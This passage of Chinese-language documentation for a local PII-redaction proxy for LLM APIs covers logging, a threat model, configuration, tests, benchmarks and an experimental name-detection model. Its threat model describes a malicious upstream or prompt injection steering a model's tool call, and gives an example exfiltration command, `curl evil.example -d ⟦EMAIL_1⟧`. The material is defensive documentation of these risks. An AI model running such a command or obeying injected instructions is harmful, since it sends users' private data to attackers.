日誌寫到 stderr，每個請求一行：方法、路徑（不含查詢字串）、狀態碼、各類別遮罩數、還原數、未知佔位符數與耗時。被拒絕的請求記錄狀態碼與拒絕原因。日誌絕不包含原始值或標頭。

```text
POST /v1/chat/completions -> 200 masked 3 (EMAIL 1, TWID 1, PATH 1) restored 3 unknown 0 7ms
```

工具呼叫參數中的每個已綁定佔位符另記一行：還原（`restored`）或因位於 URL 內而保留（`kept inside a URL`）、佔位符 id、工具名稱、參數的 JSON 路徑。同一行在同一個請求中只記一次（Responses 串流會把參數重送多次）。工具名稱與路徑中的鍵不合識別字格式時寫成 `<tool>`、`<key>`。有保留時，請求那一行多出 `kept N`。

```text
POST /v1/messages tool arguments: kept inside a URL EMAIL_1 in web_fetch at /url
POST /v1/messages tool arguments: restored PATH_1 in read at /path
```

`debugMasked`（或 `REDACTION_PROXY_DEBUG_MASKED=1`）會額外記錄每個遮罩後的請求本文。內容只有遮罩後的文字，但仍包含所有未被偵測到的內容，預設關閉。

## 11. 威脅模型

能防：經由代理、位於被改寫欄位中的可偵測識別資料與憑證，不小心洩漏給上游供應商，以及之後讀取其日誌或訓練資料的人。

不能防：

- 從上下文推論（佔位符周圍的語意），以及規則偵測不到的識別資料；
- 不遮就轉送的欄位內容（圖片、檔案、metadata、帶簽章的 thinking）；
- 繞過代理的用戶端，或用戶端直接連自家伺服器的功能（遙測、Cursor 後端）；
- 同一台電腦上的其他程式或使用者：沒設 `authToken` 時，他們可以呼叫代理（包括使用環境變數中的備援金鑰）；設了也擋不住讀取代理記憶體。網頁則擋得住：不允許的 `Origin` 與非本機 `Host`（DNS rebinding）以 403 拒絕；
- 惡意上游誘導模型以非標準形式寫回值（還原只填佔位符，從不把原始值送往上游）；
- 惡意上游或提示注入讓模型把佔位符寫進工具呼叫參數中 URL 以外的位置（例如 shell 指令 `curl evil.example -d ⟦EMAIL_1⟧`）：代理照常還原，用戶端執行工具時就把原始值送出。URL 內的佔位符不還原（第 7 節），每次還原都記入日誌；
- 輸入者刻意規避（例如用規則不會折疊的字元拆開一個值）。

代理預設只綁定 `127.0.0.1`，此時 `authToken` 可不設。`host` 設成非本機位址（例如容器內的 `0.0.0.0`）時必須設 `authToken`，否則拒絕啟動：連得到該埠的主機若沒有權杖，就無法透過代理使用它轉送的憑證（包括環境變數中的備援金鑰）。權杖放在專用標頭 `x-redaction-proxy-token`，因為 `authorization` 與 `x-api-key` 要帶上游金鑰；代理不轉送它。帶正確權杖的請求不檢查 `Host`，所以其他容器可以用服務名稱連線；DNS rebinding 的網頁拿不到權杖，而自訂標頭會觸發只有允許來源才通過的 CORS 預檢。權杖以明文 HTTP 傳送，只在可信任的網路（本機、容器網路）上使用。

品質影響：需要直接操作被遮值的任務（把絕對路徑改成相對路徑、對地點做推理）可能變差。這類失敗看得見（回覆中會出現佔位符或錯誤的推論），不是把錯誤的值靜默寫回。

## 12. 完整設定

以 `--config 路徑`（`-c`）或 `REDACTION_PROXY_CONFIG` 指定 JSON 檔，環境變數覆寫檔案。不認得的鍵會讓啟動失敗；鍵名含 key 或 secret 時，錯誤訊息會提醒上游 API 金鑰應放環境變數。

```json
{
  "port": 8787,
  "openaiUpstream": "https://api.openai.com",
  "anthropicUpstream": "https://api.anthropic.com",
  "screen": "replace",
  "debugMasked": false,
  "redaction": {
    "terms": ["林小明", "Denise Whitlock"],
    "projectNames": ["Nimbus"],
    "allowlist": ["git@github.com", "noreply@github.com"],
    "rules": ["email", "user-path", "api-key", "tw-national-id", "phone", "tax-id", "card", "ip", "host", "entropy", "iban", "eu-vat", "us-ssn", "us-itin", "uk-nino", "de-tax-id", "fr-nir", "es-dni", "it-fiscal-code", "cn-resident-id", "cn-mobile", "hk-id", "jp-my-number", "jp-mobile", "kr-rrn"]
  }
}
```

| 檔案鍵 | 環境變數 | 預設 | 說明 |
| --- | --- | --- | --- |
| `port` | `REDACTION_PROXY_PORT` | `8787` | 埠號，0–65535；0 代表隨機。環境變數必須是數字，空字串會讓啟動失敗。 |
| `host` | `REDACTION_PROXY_HOST` | `127.0.0.1` | 綁定位址。非本機位址（不是 `localhost`、`127.0.0.0/8`、`::1`）必須設 `authToken`；見 [§11](#11-威脅模型)。 |
| `authToken` | `REDACTION_PROXY_AUTH_TOKEN` | 無 | 每個請求都要在 `x-redaction-proxy-token` 標頭帶上的權杖，至少 16 個字元，例如 `openssl rand -hex 32`。不轉送。 |
| `allowedOrigins` | `REDACTION_PROXY_ALLOWED_ORIGINS`（逗號分隔） | 無 | 本機 `http(s)` 來源之外允許的瀏覽器來源，與 `Origin` 標頭逐字比較（不分大小寫，去掉結尾斜線），例如 `app://my-client`。拒絕 `null` 與 `*`。 |
| `openaiUpstream` | `REDACTION_PROXY_OPENAI_UPSTREAM` | `https://api.openai.com` | Chat Completions、Responses 與 OpenAI 型 GET 的上游 base，必須是 http(s)。 |
| `anthropicUpstream` | `REDACTION_PROXY_ANTHROPIC_UPSTREAM` | `https://api.anthropic.com` | Messages 與 Anthropic 型 GET 的上游 base。 |
| `allowInsecureUpstream` | `REDACTION_PROXY_ALLOW_INSECURE_UPSTREAM=1` | `false` | 允許以明文 `http://` 連到非本機的上游。未設定時這種上游會讓啟動失敗，因為 API 金鑰會以明文傳送。 |
| `screen` | `REDACTION_PROXY_SCREEN` | `replace` | `replace` 或 `refuse`，見第 9 節。 |
| `debugMasked` | `REDACTION_PROXY_DEBUG_MASKED=1` | `false` | 記錄遮罩後的請求本文。 |
| `redaction.rules` | — | `e164-phone` 以外全部 | 啟用的內建規則；空陣列停用所有內建偵測。代理預設啟用 `e164-phone` 以外的 25 條；要偵測 `+` 開頭的國際電話時把 `e164-phone` 加進清單。直接使用核心的宿主（`new RulesDetector()`）預設只有臺灣與通用的 10 條（`DEFAULT_RULE_NAMES`），見下方說明。 |
| `redaction.terms` | — | 無 | 以 `TERM` 遮罩的字面值，例如人名。 |
| `redaction.projectNames` | — | 無 | 以 `PROJECT` 遮罩的字面值，例如代號。 |
| `redaction.allowlist` | — | `git@github.com`、`noreply@github.com` | 內建規則一律放過的字面值。 |
| `nameModel.dir` | `REDACTION_PROXY_NAME_MODEL_DIR` | 無（不設定即關閉） | 實驗性人名模型的目錄，絕對路徑；設定後才開啟。其餘 `nameModel.*` 鍵見[第 16 節](#16-人名模型實驗性)。 |
| — | `REDACTION_PROXY_OPENAI_API_KEY` | 無 | OpenAI 型用戶端沒送 `authorization` 時才以 `Bearer` 補上。只存記憶體。 |
| — | `REDACTION_PROXY_ANTHROPIC_API_KEY` | 無 | Anthropic 型用戶端沒送 `x-api-key` 與 `authorization` 時才補上。只存記憶體。 |

**國際規則與政策摘要。** 偵測器的 `policyDigest` 是偵測器版本與啟用規則清單的雜湊，持久化 span 索引的宿主（DeepSeek Harness 的隱私路由）用它判斷先前記錄的遮罩是否仍適用；摘要不同時，`mask` 以 `policy` 拒絕。核心預設不含國際規則，所以未設定 `rules` 的宿主在這個版本下得到與先前完全相同的偵測器版本（`rules-6`）與摘要，已記錄的 session 照常遮罩。在這類宿主啟用任一國際規則，偵測器版本變成 `rules-6+intl-1`、摘要隨之改變，之前記錄的 session 會遇到 `policy` 拒絕（隱私路由會改在本機回答）。國際規則的結果改變時只遞增 `INTERNATIONAL_RULES_VERSION`，不影響未啟用國際規則的宿主。代理不保存索引，每個請求都用空索引，所以摘要對代理沒有影響，代理因此預設啟用 `e164-phone` 以外的全部規則。

上游 base 要設成讓 `<base>/v1/chat/completions`（或 `<base>/v1/messages`）是真正的端點，例如 `https://api.deepseek.com`。結尾斜線會被去掉。

## 13. 測試

`pnpm test`（vitest）執行 25 個檔案、993 個測試（7 個需要真模型，預設略過）：

| 檔案 | 內容 |
| --- | --- |
| `rules-detection`、`rules-secrets`、`rules-normalization`、`rules-propagation`、`rules-config`、`rules-synthetic-corpus` | 與 DeepSeek Harness 轉接層共用的規則測試：各規則、憑證樣式、NFKC 與零寬字元、同值擴散、設定驗證、合成語料。 |
| `rules-regroup`、`rules-regroup-review*`、`rules-percent*` | 拆開寫法（WO-6）、百分比編碼的值與逐位元組還原、手機號碼的字母邊界（WO-7）、逐字元解碼與解碼後的 NFKC 投影，含兩組各 10,000 筆、不同種子的模糊測試（WO-9），以及緊接在無效 `%XX` 後面的值（WO-9b）。 |
| `rules-international` | 國際規則：每條規則的合成正例、檢查碼錯誤與結構不符的反例、程式碼與日誌形狀的反例（時間戳、雜湊、訂單號、版本字串、UUID）、與卡號重疊時的類別、全形與百分比編碼、預設政策摘要不變、代理預設啟用 `e164-phone` 以外的全部規則、diff 新增行不被當成電話。`rules-synthetic-corpus` 另有國際規則在隨機日誌 id 上的誤遮上限，`adversarial` 另有 30 種國際規則的 200 KB 病態輸入。 |
| `engine` | 遮罩引擎：編號、保留 id、索引重用、嚴格還原。 |
| `adversarial` | 洩漏與往返、失敗即關閉的篩檢、54 種 200 KB 病態輸入各須在 2 秒 CPU 時間內（量測 worker 行程的 CPU 時間而非經過時間，平行執行的其他測試不計入）、串流回覆的所有 2 段與 3 段切法、100 KB 串流以 4 字元為單位。 |
| `proxy` | 對本機假上游的端對端測試：Chat Completions、Responses、Anthropic Messages 的 JSON 與 SSE，佔位符跨越分塊邊界並出現在工具呼叫 JSON 中。 |

`pnpm typecheck` 做型別檢查。CI（`.github/workflows/ci.yml`）在 ubuntu 與 macOS、Node 22 與 24 上跑型別檢查、測試、建置、`--demo` 與 `npm pack --dry-run`，不安裝人名模型的選用依賴；真實服務的驗證（`e2e-real.yml`）只能手動觸發，金鑰來自 repository secrets。所有端對端測試與 `pnpm demo` 都只用本機假上游，尚未對真實 API 或真實用戶端驗證。

## 14. 誤遮率量測方法

`pnpm bench`（`bench/false-positives.mjs`）：

1. 以 `git archive` 匯出語料倉庫指定 commit 的 `packages`、`docs`、`scripts`（預設 `/path/to/deepseek-harness` 的 `master`；以 `CORPUS_REPO`、`CORPUS_REF` 覆寫）到 `.corpus-work`，結束後刪除。
2. 選取 `.ts .md .yml .yaml .json .sh .py`、小於 512 KB 的檔案，排除 snapshot、session、fixture、`node_modules`、`lib`、`dist`、`coverage`。
3. 每個檔案以預設規則整份 `mask`，再以嚴格 `restore` 確認逐位元組還原。
4. 主要指標：程式碼檔（`.md`、`.yml`、`.yaml` 以外）中的 `KEY` 數量除以程式碼行數。原始碼不含可用的憑證，所以每一個都是誤遮。其他類別以全部行數與程式碼行數各計一次，是誤遮的上限，因為文件裡確實有應被遮的範例路徑與地址。預設設定不含 `terms`，所以 `TERM`、`PROJECT` 不出現。

最近一次結果（`rules-6`；DeepSeek Harness `6d3b7608bf`，4,789 個檔案、848,546 行，其中程式碼檔 697,669 行，Apple M5 Max 約 8 秒；與 `rules-5`、`rules-4`、`rules-3`、`rules-2` 每一類數量相同，`TAXID` 為 0）：

| 類別 | 數量 | 每千行 |
| --- | --- | --- |
| `KEY`（程式碼檔，全為誤遮） | 527 | **0.76**（以程式碼行數計） |
| `ENTROPY` | 873 | 1.03 |
| `KEY`（全部檔案） | 580 | 0.68 |
| `PATH` | 201 | 0.24 |
| `HOST` | 157 | 0.19 |
| `IP` | 42 | 0.05 |
| `EMAIL` | 16 | 0.02 |
| `CARD` / `PHONE` / `TWID` | 3 / 1 / 1 | <0.01 |

29 個檔案因含 `⟦`/`⟧` 被拒絕（`unsupported`），還原失敗 0。

以 `BENCH_RULES=all pnpm bench` 啟用全部 26 條規則（`rules-6+intl-1`）量測同一語料：每一類的數量與上表完全相同，國際規則在這份語料上新增 0 個遮罩（`IBAN`、`NATID` 為 0，`PHONE`、`TAXID` 不變），耗時約 6 秒。英文程式碼語料幾乎不含這類識別碼形狀，所以這個數字只說明它們不會誤遮一般程式碼；隨機日誌 id 上的誤遮率由 `rules-synthetic-corpus` 的上限測試把關。與識別碼格式完全相同的值本來就會被遮：任何 `123-45-6789` 形式的數字（SSN 沒有檢查碼）、`+` 後接 10–15 位數且國碼已分配的數字（例如寫成 `+12345678901` 的帶號整數），以及約 1/10 到 1/97 通過檢查碼的同格式隨機值。語料是英文程式碼；以中文為主的散文語料尚未量測。

## 15. 公開前尚待完成

- 對真實 OpenAI、Anthropic、DeepSeek API 與真實用戶端（Claude Code、OpenAI SDK）做端對端驗證。
- 量測中文散文語料的誤遮率。
- 發布到 npm。套件已可發布（`bin` 入口 `redaction-proxy`，`npm pack` 只含 `lib/`、README、LICENSE、NOTICE），但 `package.json` 仍是 `"private": true`；決定發布時刪掉這一行即可（若改用 scoped 名稱，另加 `"publishConfig": { "access": "public" }`）。`prepublishOnly` 會先跑型別檢查與測試。授權條款已定為 Apache-2.0（[LICENSE](../LICENSE)）。
- 實際建置並執行 Docker 映像（`Dockerfile` 已寫好，尚未在有 Docker 的環境建置）。
- 將 dsh-privacy-router 的串流還原器統一到這份核心。

## 16. 人名模型（實驗性）

預設關閉。設定後，一個小型本機模型（[`Wismut/nym-pii-multilingual-small`](https://huggingface.co/Wismut/nym-pii-multilingual-small)，MIT 授權，edge-int8，108 MB）會在**你**寫的文字中另外遮掉人名（`⟦NAME_1⟧`）、公司（`⟦ORG_1⟧`）、地名（`⟦LOC_1⟧`）與地址（`⟦ADDR_1⟧`）。它是實驗性功能：會漏掉一些人名，也會把一些不是人名的字遮掉。以下數字來自合成資料，在 Apple M5 Max CPU 上量測。

它讀什麼、不讀什麼：

- 只讀使用者訊息中你自己寫的散文段落。系統提示、助理回覆、工具結果、程式碼區塊，以及看起來像程式碼、JSON、YAML 或日誌的行都不讀，所以貼上的程式碼或日誌裡的人名在那裡不會被找到。
- 它找到的人名、公司、地名、地址，會在整個請求中用同一個佔位符遮掉：系統提示、助理回覆、工具結果、工具呼叫參數（`許雅雯` 與 `許 雅 雯` 共用一個，`Jordan` 與 `JORDAN` 也是）。以空格分詞的文字只比對完整單字（`Leeds` 裡的 `Lee` 不遮）；中文、日文、韓文在任何位置都比對。只有一個字的值只在找到的位置遮。
- 全名只會遮其他地方的全名：找到 `Lee Morgan` 後，單獨出現的 `Lee`、`Morgan`，或 `Lee "Lefty" Morgan`，都照原樣送出。編碼過的寫法（URL 中的 `Lee%20Morgan`）與黏在一起的寫法（`LeeMorgan`）既不遮也不拒絕。
- 模型誤認成人名的字也會在整個請求中被遮，靠允許清單擋下。
- 規則優先：與 email、金鑰等規則偵測重疊的範圍會被捨棄。
- `Kafka`、`Docker`、`Podman`、`Default`、`High`、`Low` 這類字在預設允許清單（`nameModel.allowlist`）中。
- 範圍可能太短或太長。中文人名只找到一部分時，其餘的字照原樣送出（`林小明` → `⟦NAME_1⟧明`）；中文範圍也可能多帶下一個字（`刘建国会`）。日文人名後的敬稱與助詞（`さん`、`様`、`に`、`は` 等）會從範圍中切掉，所以 `佐藤美咲さんに` 送出時是 `⟦NAME_1⟧さんに`。

實測（保留集只跑一次；未註明者為召回率）：

| 項目 | 結果 | 說明 |
| --- | --- | --- |
| 散文中的人名，英文／日文 | 1.00／1.00 | |
| 散文中的人名，繁體中文 | **0.87** | 未達 0.90 目標：大約每 8 個人名漏 1 個。 |
| 散文中的人名，簡體中文 | 保留集 1.00、開發集 0.75 | 樣本小（開發集 16 個人名）。 |
| 貼上的程式碼、日誌、JSON 中的人名 | 0.10–0.30 | 設計上不處理；這類人名請列進 `terms`。 |
| 散文中的公司／地名／地址 | 0.71／0.88／0.82 | 地址：簡體中文 0.42、法文 0.67。 |
| 精確率 | 0.94 | 被遮的範圍中確實是人名、公司或地名的比例。 |
| 技術對話中的誤遮 | 每千句 46 處（開發集 113 處） | 量測時尚未有允許清單；多半是 `Default` 或工具名稱。加上預設允許清單後，開發集每千句 4 處，但清單正是依這組資料建的。每一處都會在整個請求中被遮。 |
| 程式碼中的誤遮 | 0 | 程式碼不讀。 |
| 增加的記憶體 | 約 +420 MB | 512 token 視窗；處理過 16 KB 訊息後約 +440 MB。 |
| 增加的延遲 | 2 KB 中文散文 p95 約 130 ms，中英混合約 80 ms | 16 KB 中文散文約 1 秒。看過的段落會快取。 |

設定方式：

```sh
pnpm add -D onnxruntime-node@1.30.0 tokenizers@0.23.2  # 模型的執行環境，約 350 MB；只跑 pnpm install 不會安裝
node scripts/fetch-name-model.mjs ~/models/nym       # 從 Hugging Face 下載約 125 MB，並檢查 sha256
```

這個腳本從 `Wismut/nym-pii-multilingual-small` 的 `4348999cd3c2e20c49615e9af7c6bbb45b64cd85` 版本下載 `edge-int8/model_int8.onnx`、`edge-int8/config.json`、`edge-int8/tokenizer.json` 與 `README.md`（授權聲明），再在同一目錄寫出 `vocab.json`、`merges.txt`、`added_tokens.json`；代理載入這三個檔，不載入 12 MB 的 `tokenizer.json`，可省下約 220 MB 記憶體。接著在設定檔加上：

```json
{ "nameModel": { "dir": "/Users/you/models/nym" } }
```

或設定 `REDACTION_PROXY_NAME_MODEL_DIR=/Users/you/models/nym`。

| 鍵 | 預設 | 說明 |
| --- | --- | --- |
| `nameModel.dir` | 必填 | 腳本寫入的目錄，絕對路徑。 |
| `nameModel.threshold` | `0.3` | 越低找到越多，也越常遮到不是人名的字。 |
| `nameModel.categories` | `NAME`、`ORG`、`LOC`、`ADDR` | 要遮的類別。 |
| `nameModel.windowTokens`／`windowOverlap` | `512`／`128` | 每次模型推論的 token 數與重疊；視窗越大越耗記憶體，找到的人名也越少。 |
| `nameModel.allowlist` | 工具與設定值用字 | 整段完全相符就不遮；設定後取代預設清單。 |
| `nameModel.required` | `false` | 推論失敗時，`false` 讓該請求只用規則遮罩並在日誌記 `nameModel failed`；`true` 以 503 拒絕。 |

模型在開放連接埠之前載入；缺檔案或套件時啟動失敗並指出缺什麼。開啟模型會改變 policy digest，所以保存 span index 的宿主不會在新設定下接續舊的 index。

## 17. 完整限制清單

| 限制 | 意思 |
| --- | --- |
| 藏實體，不藏語意 | 上游仍讀得到佔位符周圍的一切。`⟦PATH_1⟧/clients/acme-layoffs.md` 依然透露很多。 |
| 人名、地址只有列出才遮 | 預設沒有自由文字的人名偵測，也沒有地址規則。人名、公司名、代號要列進 `terms` 或 `projectNames`，或開啟[實驗性的人名模型](#16-人名模型實驗性)，但它會漏掉一些人名。病況、薪資照原樣送出。 |
| 有些欄位不遮 | 圖片、PDF、音訊、`metadata`、工具名稱、帶簽章的 thinking 原樣轉送且不掃描，JSON 物件的鍵也是。在被遮文字中偵測到的值若也出現在這些欄位，整個請求以 422 拒絕；只出現在這些欄位的值照原樣送出。 |
| Cursor 不能用 | Cursor 的自訂 base URL 請求是從 Cursor 自己的伺服器發出，連不到你的 `127.0.0.1`；而且 Cursor 後端在任何代理之前就看到未遮罩的提示。 |
| 有些拆開的寫法抓不到 | 偵測不到：點後加空格的私有 IP（`192. 168. 1. 2`）；被空格或換行拆開的 API 金鑰（高熵規則只抓得到部分片段）；寫成 `name @ domain`（`@` 兩側有空白，`wang.yichun @ example.tw`）或單獨用 ` at `（`wang.yichun at example.tw`）的 email 不遮，因為 shell 提示字元（`root @ web01.example.com`）、帳號標記（`cc @ alice.me`）、英文散文（`socket.io at github.com`）與矩陣程式碼（`a.b @ c.de`）長得一樣；這類 email 只有隱私分類器把關。抓得到：加了空格或連字號的 terms、`＠`、`(at)`、`[at]`、`[dot]`，以及中間有一個分隔符的身分證字號、統編、手機號碼。 |
| 有些編碼寫法抓不到 | 百分比編碼（percent-encoding）的值（`lin.yating%40example.com`、查詢字串裡的 `%E6%98%9F…`、`%2FUsers%2F…`）會解碼一層後偵測，遮罩範圍是編碼原文，回覆還原時寫回編碼原文。夾雜無效或截斷的位元組（`%FF`、在 `%E6` 處被截斷的 URL）不會讓其餘部分不解碼，解碼後的全形字元與零寬字元也和一般文字一樣折疊，緊接在無效位元組後面的號碼或金鑰（`%E6%2B886…`、`%E609-1234-5678`、`%FFsk-…`）也抓得到。偵測不到：編碼兩次的值（`%2540`）；表單編碼查詢中代表空格的 `+`（`星河+計畫`）；URL 裡經 base64 編碼的值（隱私路由只在工具輸出中解碼 base64）；緊接在無效位元組後面的身分證字號（`%E6A123456789`），因為 Big5 與 Shift-JIS 中緊接在前導位元組後面的字母是該字的一部分（`%A4A` 是「乙」）。同理，尾位元組為 `A` 的 Shift-JIS 字元可能讓 `%83AKIA…` 被遮成形似金鑰的範圍。 |
| 一個 term 一個佔位符，還原成第一種寫法 | `星河計畫`、`星河 計畫` 與 `NIMBUS-7`、`nimbus 7` 都依所設定的 term 共用一個佔位符，回覆中每個位置都還原成請求裡第一次出現的寫法。 |
| 只認標準佔位符 | 模型若把 `⟦EMAIL_1⟧` 改寫成 `[EMAIL_1]`，你會原樣看到它。 |
| 模型品質可能下降 | 需要直接操作被遮值的任務（例如把絕對路徑改成相對路徑）會變差。你會看到佔位符，不是靜默出錯。 |
| 會改動一些字元 | 預設把控制字元換成可見字元（`␛`），把原文中的 `⟦` `⟧` 換成 `⟪` `⟫`。 |
| 重啟會忘記接續對話 | Responses API 的 `previous_response_id` 依賴記憶體中最近 256 個回應；重啟或被擠出後，接續請求以 422 拒絕。 |
| 本機預設沒有驗證 | 預設只綁定 `127.0.0.1`；沒設 `authToken` 時，你電腦上的任何程式都能使用它。網頁的請求（不允許的 `Origin`、DNS rebinding）以 403 拒絕。 |
| 工具參數只有 URL 內不還原 | 工具呼叫參數中 URL 內的佔位符保持原樣（合法的 `https://host/⟦PATH_1⟧` 也一樣）；其他位置照常還原並記入日誌，所以 shell 指令等仍可能把原始值送出。 |
| 請求大小 | 本文超過 64 MiB 以 413 拒絕。 |
| 尚未對真實服務測試 | 測試與示範都用本機假上游，尚未對 OpenAI、Anthropic、DeepSeek 或真實用戶端驗證。驗證工具已備妥（[e2e/real](../e2e/real/README.md)），尚未執行。 |

## 18. 實測數字

| 項目 | 結果 | 代表什麼 |
| --- | --- | --- |
| 測試 | 986 個通過、7 個需要真模型而略過（共 993 個） | 規則、引擎、對抗輸入、對假上游的三種 API 串流與非串流。 |
| 憑證誤遮 | 每千行程式碼 **0.76** 處 | 在不含真實金鑰的 DeepSeek Harness 原始碼上量測（69.8 萬行程式碼），平均約 1,300 行有一處被誤當成金鑰而遮掉。 |
| 還原失敗 | 0 | 遮罩成功的檔案全部都能逐位元組還原。 |
| 速度 | 約 85 萬行 / 5 秒 | Apple M5 Max。 |
| 合成多語提示，保留集（盲寫、只跑一次） | 英文 330 筆、10 類宏平均完全遮蔽：核心預設 34.6%、代理預設 54.1%、加人名模型 61.1%；Presidio cutoff 0 為 52.2%、cutoff 0.4 為 50.7%。遮掉的範圍確實是敏感值：規則 95.2–95.7%、加人名模型 92.5%、Presidio 64.7–69.0%。中位數耗時：規則 0.06–0.07 ms、加人名模型 7.4 ms、Presidio 8.6 ms。全部 7 種語言的宏平均：核心預設 38.8%、代理預設 56.0%、加人名模型 64.3%（Presidio 46.6%、43.0%，只當英文分析，僅供參考）。還原 100% | `heldout-v1.jsonl`（SHA-256 `be2ebb95…3e553`）：英、繁中、簡中、日、韓、德、法共 1,518 筆、6,453 個敏感值、2,215 個困難反例，由從未看過規則的人撰寫，凍結後只評分一次，看到結果後沒有修改；檔案不在本倉庫。弱點（英文、代理預設）：電話 95% 完全沒遮（`e164-phone` 需自行開啟），Presidio 完全遮蔽 82–85%；路徑 87% 只遮掉一部分（使用者名稱被遮，其餘保留）；主機 30%、金鑰 28% 完全沒遮；沒有地址規則；人名模型完全遮蔽 70% 的人名（全部語言 65%），且會遮掉 user-agent 字串。完整結果：[bench/results/public-bench-held-out.md](../bench/results/public-bench-held-out.md)。 |
| 合成多語提示，開發集（初步） | 代理預設、9 類宏平均完全遮蔽：英文 77.8%、全部語言 83.4% | 1,200 筆固定種子的提示（英、繁中、簡中、日），由規則作者撰寫、和規則一起調整，所以分數比保留集高得多；只當開發時的檢查：[bench/results/public-bench-dev.md](../bench/results/public-bench-dev.md)。 |

誤遮的代價是模型看到一個不必要的佔位符，回覆時會被換回原值。語料是英文程式碼，中文散文的誤遮率尚未量測。以 `pnpm test`、`pnpm bench` 與 `pnpm run bench:public` 重現；加上 `--heldout <set.jsonl>` 可另外評分凍結的保留集（格式與 MANIFEST 檢查見 `bench/public/heldout.ts`）。

## 19. 常見問題

**用了它，對話就是私密的嗎？** 不是。它減少可偵測的個資與憑證外洩，但上游仍讀得到其餘內容。

**為什麼用 `⟦EMAIL_1⟧`，不用假的 email？** 實測時模型逐字保留佔位符的比例是 100%，假值只有 75%，而且假值造成了無法還原的靜默錯誤。

**我的名字會被遮嗎？** 列進 `terms` 就一定會。開啟實驗性人名模型時，你在訊息中寫到它通常會被遮，但不保證：繁體中文人名大約每 8 個漏 1 個，程式碼與日誌也不讀。

**為什麼請求被 422 拒絕？** 遮罩後的請求中仍有偵測到的值，通常是在代理不改寫的欄位（例如圖片 URL 或 metadata），或你設定了 `screen: "refuse"`。訊息會指出欄位，不含值。

**代理會存我的金鑰或對話嗎？** 金鑰原樣轉送，不儲存。對話不存，唯一例外是 Responses API 接續用的最近 256 份輸入，只在記憶體中。

**能放在伺服器上給別人用嗎？** 不建議。`host` 改成非本機位址時必須設 `authToken`，但只有一個共用權杖、以明文 HTTP 傳送，接續對話的記憶也不分用戶端（第 8 節）。它是給本機或容器網路用的。

## 20. README 圖片與影片

README 的圖片與影片都放在 `docs/media/`，可重新產生：

| 檔案 | 來源 | 重新產生 |
| --- | --- | --- |
| `hero.svg` | 手繪 SVG | 直接編輯 |
| `results.svg` | 評測結果 JSON | `node bench/results-chart.mjs`；預設讀 `bench/results/public-bench-held-out.json` 的英文提示，畫代理預設、加人名模型與 Presidio cutoff 0.4 三個系統；`--split allLanguages`、`--systems "名稱;名稱"`、`--input`、`--out`、`--label` 可改（見腳本開頭） |
| `src/captured.json` | 真實代理輸出：`lib/cli.js --demo`，以及另一個經代理送往本機假上游的串流請求 | `pnpm build && node docs/media/src/capture.mjs` |
| `before-after.png`、`intro.mp4`、`intro.gif` | `src/before-after.html`、`src/intro.html` 讀 `captured.json` | `PLAYWRIGHT=… FFMPEG=… node docs/media/src/render.mjs`（Playwright 與 ffmpeg 都不是倉庫依賴，取得方式見腳本開頭） |

示範資料全是虛構的值（`example.test` 網域、虛構人名、假金鑰）。

## 來源聲明

部分遮蔽規則與引擎源自 [LYiHub/pub-dsh-privacy-router](https://github.com/LYiHub/pub-dsh-privacy-router)（MIT），經由 dsh-privacy-router fork 與 dsh-addons 移植。本專案以 Apache-2.0 授權（[LICENSE](../LICENSE)），[NOTICE](../NOTICE) 保留原作者的 MIT 版權聲明。
